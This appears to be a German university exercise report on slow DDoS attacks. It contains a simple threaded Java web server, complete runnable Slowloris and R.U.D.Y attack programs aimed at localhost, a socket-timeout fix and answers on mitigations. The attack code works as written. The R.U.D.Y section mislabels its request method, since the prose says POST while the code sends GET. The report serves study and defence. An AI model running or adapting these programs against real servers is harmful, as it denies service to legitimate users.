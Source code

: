 ```yaml
---
title: Slow DDoS-Angriffe 
author: Paul Nykiel
date: \today
---
```


# Webserver
Die `SimpleHTTPServer` Klasse wurde folgendermaßen angepasst:
```java
public static void main (String[] args) throws IOException {
    ExecutorService executorService = Executors.newFixedThreadPool(threadPoolSize);

    ServerSocket serverSocket = new ServerSocket(port);
    while (true) {
        Socket clientSocket = serverSocket.accept();

        executorService.submit(new ConnectionThread(clientSocket));

        System.out.println("Connection from " + clientSocket.getRemoteSocketAddress()
                + "; Active Connections: " + ConnectionThread.activeConnections.get());
    }
}
```

# Slow Loris
Die gesamte Slow-Loris Implementierung (Aufgabe 2 und 4) sieht folgendermaßen aus:
```java
package assignment.attacks;

import java.io.IOException;
import java.net.Socket;
import java.util.ArrayList;
import java.util.List;
import java.util.Random;
import java.util.concurrent.ThreadLocalRandom;

public class Slowloris {
    static String host = "127.0.0.1";
    static int port = 12345;
    static int threads;

    static List<Socket> socketList;

    public static void main(String[] args) throws InterruptedException, IOException {
        // Not with executor to save resources on attacker side
        socketList = new ArrayList<>();

        for (int c=0; c<15; ++c) {
            openSocket();
        }

        while (true) {
            Thread.sleep(8000);
            for (var socket : socketList) {
                sendLine(socket);
            }
        }
    }

    private static void openSocket() throws IOException {
        Socket socket = new Socket(host, port);
        var ostream = socket.getOutputStream();

        String header = "POST / HTTP/1.1";

        ostream.write(header.getBytes());

        socketList.add(socket);
    }

    private static void sendLine(Socket socket) throws IOException {
        var ostream = socket.getOutputStream();

        StringBuilder field = new StringBuilder();
        for (int c=0; c<8; ++c) {
            byte asciiVal = (byte) (ThreadLocalRandom.current().nextInt(46) + 'A');
            if (asciiVal > 'Z') {
                asciiVal = (byte) (asciiVal - 'A' - 26 + 'a');
            }
            field.append((char) asciiVal);
        }

        String line = "\r\nX-" + field.toString() + ": " + ThreadLocalRandom.current().nextInt(10000);
        System.out.print(line);

        ostream.write(line.getBytes());
    }
}
```

# WebServer-Timeouts
Für Timeouts (hier 10 Sekunden) wurde folgende Zeile am begin der `run`-Methode des `ConnectionThread` ergänzt:
```java
clientSocket.setSoTimeout(10000);
```


# R.U.D.Y
Die R.U.D.Y Implementierung ist quasi identisch zu Slow-Lorris, nur mit Post-Requests:
```java
package assignment.attacks;

import java.io.IOException;
import java.net.Socket;
import java.util.ArrayList;
import java.util.List;
import java.util.concurrent.ThreadLocalRandom;

public class RuDY {

    static String host = "127.0.0.1";
    static int port = 12345;
    static int threads;

    static List<Socket> socketList;

    public static void main(String[] args) throws IOException, InterruptedException {
        // Not with executor to save resources on attacker side
        socketList = new ArrayList<>();

        for (int c=0; c<15; ++c) {
            openSocket();
        }

        while (true) {
            Thread.sleep(8000);
            for (var socket : socketList) {
                sendLine(socket);
            }
        }
    }

    private static void openSocket() throws IOException {
        Socket socket = new Socket(host, port);

        var ostream = socket.getOutputStream();

        String header = "GET / HTTP/1.1";

        ostream.write(header.getBytes());

        socketList.add(socket);
    }

    private static void sendLine(Socket socket) throws IOException {
        var ostream = socket.getOutputStream();

        StringBuilder field = new StringBuilder();
        for (int c=0; c<8; ++c) {
            byte asciiVal = (byte) (ThreadLocalRandom.current().nextInt(46) + 'A');
            if (asciiVal > 'Z') {
                asciiVal = (byte) (asciiVal - 'A' - 26 + 'a');
            }
            field.append((char) asciiVal);
        }

        String line = "\r\nX-" + field.toString() + ": " + ThreadLocalRandom.current().nextInt(10000);
        System.out.print(line);

        ostream.write(line.getBytes());
    }
}
```

# Fragen
 * Es handelt es sich um eine Apache ähnliche Architektur, da für jede Verbindung ein neuer Thread aufgemacht wird,
    dadurch wird der Server anfällig für Slow DDoS Angriffe.
 * Manche Endgeräte (vor allem mobile Geräte mit schlechter Internetanbindung) senden im regulären Betrieb bereits
    nur sehr langsam Daten und könnten so fälschlicherweise als Angreifer klassifiziert und damit ausgeschlossen
    werden.
 * Nein, so kann der Server nur noch weiter überlastet werden. Die Kosten für weitere Verbindungen sind für den Server
    im Vergleich zum Angreifer deutlich größer.
 * Ansätze:
   * Bessere Serverarchitektur: nicht für jeden Client eine eigene Verbindung (vgl. Nginx)
   * Semantische Nachrichtenanalyse: Kontroller ob Empfangene Nachrichten (-Teile) sinnvoll sind
   * Minimale Übertragungsraten (muss natürlich entsprechend gewählt werden, so dass valide Clients weiter zugreifen
        können).

# Fazit
In der Übung wurden kleine Teile eines Webservers mit Apache-ähnlichem Aufbau implementiert. An diesen Server wurden
dann Slowloris und R.U.D.Y Angriffe ausprobiert. Damit wurde fast der gesamte Vorlesungsstoff praktisch umgesetzt und
getestet.

Zusammenfassend fand ich die Übung sehr gut. Fast der gesamte Inhalt der Vorlesung wurde wiederholt, und durch das
Implementieren weiter vertieft. Die einzige Verbesserungsmöglichkeit wäre vielleicht das Ausprobieren der Angriffe
an einem echten Apache Webserver (natürlich in einer kontrollierten Umgebung).
